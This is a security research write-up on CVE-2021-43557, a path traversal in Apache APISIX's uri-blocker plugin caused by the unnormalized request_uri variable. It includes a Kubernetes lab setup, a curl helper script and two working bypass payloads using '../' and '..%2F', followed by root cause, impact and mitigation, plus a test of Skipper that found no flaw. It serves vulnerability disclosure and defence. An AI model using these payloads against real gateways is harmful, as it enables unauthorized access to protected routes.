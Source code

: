 ```yaml
---
title: "Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- Security
description: Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)
tags: Technology
---
```


> Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)

<!--truncate-->

In this article I will present my research on insecure usage of `$request_uri` variable in [Apache APISIX](https://github.com/apache/apisix-ingress-controller/) ingress controller. My work end up in submit of security vulnerability, which was positively confirmed and got CVE-2021-43557\. At the end of article I will mention in short [Skipper](https://github.com/zalando/skipper) which I tested for same problem.

> Apache APISIX is a dynamic, real-time, high-performance API gateway. APISIX provides rich traffic management features such as load balancing, dynamic upstream, canary release, circuit breaking, authentication, observability, and more.

Why `$request_uri` ? This [variable](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri) is many times used in authentication and authorization plugins. It’s **not normalized**, so giving a possibility to bypass some restrictions.

In Apache APISIX there is no typical functionality of external authentication/authorization. You can write your own plugin, but it’s quite complicated. To prove that APISIX is vulnerable to path-traversal I will use `uri-blocker` plugin. I’m suspecting that other plugins are also vulnerable but this one is easy to use.

## Setting the stage

Install APISIX into Kubernetes. Use helm chart with version **0.7.2**:

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

In case of problems follow [official guide](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md).

To create _ingress route_, you need to deploy `ApisixRoute` resource:

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

Let’s dive deep into it:

- It creates routes for `public-service` and `private-service`
- There is `proxy-rewrite` turned on to remove prefixes
- There is `uri-blocker` plugin configured for `protected-service`. It can look like mistake but this plugin it about to block any requests starting with `/protected-service`

## Exploitation

I’m using APISIX in version **2.10.0**.

Reaching out to APISIX routes in minikube is quite inconvenient: `kubectl exec -it -n ${namespace of Apache APISIX} ${Pod name of Apache APISIX} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'`. To ease my pain I will write small script that will work as template:

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

In your case replace `apisix-dc9d99d76-vl5lh` with name of actual APISIX pod.

Let’s start with validation if routes and plugins are working as expected:

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

Yep. `public-service` is available and `protected-service` is blocked by plugin.

Now let’s test payloads:

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

and second one:

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

As you can see in both cases I was able to bypass uri restrictions.

### Root cause

`uri-blocker` plugin is using `ctx.var.request_uri` variable in logic of making blocking decision. You can check it in [code](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98):

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### Impact

- Attacker can bypass access control restrictions and perform successful access to routes that shouldn’t be able to,
- Developers of custom plugins have no knowledge that `ngx.var.request_uri` variable is untrusted.

Search for usage of `var.request_uri` gave me a hint that maybe [authz-keycloak plugin](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) is affected. You can see [this code](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578), it looks really nasty. If there is no normalization on keycloak side, then there is high potential for vulnerablity.

### Mitigation

In case of custom plugins, I suggest to do path normalization before using `ngx.var.request_uri` variable. There are also two other variables, high probably normalized, to check `ctx.var.upstream_uri` and `ctx.var.uri`.

## Skipper

Skipper is another ingress controller that I have investigated. It’s not easy to install it in kubernetes, because deployment guide and helm charts are outdated. Luckily I have found issue page where developer was describing how to install it. This ingress gives possibility to implement external authentication based on [webhook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook):

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

To add some interesting headers that could help in access control decision, you need to do it manually with `setRequestHeader` filter. There is template available to inject variable by `${}`. Sadly (for attackers) `${request.path}` is having normalized path. I see in code that developers are not using _easily_ `RequestURI` or `originalRequest`.

I wasn’t able to exploit path traversal in this case. Skipper remains safe.

## Summary

Apache APISIX is vulnerable for path traversal. It’s not affecting any external authentication, but plugins that are using `ctx.var.request_uri` variable.

Whole code of this example is here [https://github.com/xvnpw/k8s-CVE-2021-43557-poc](https://github.com/xvnpw/k8s-CVE-2021-43557-poc).

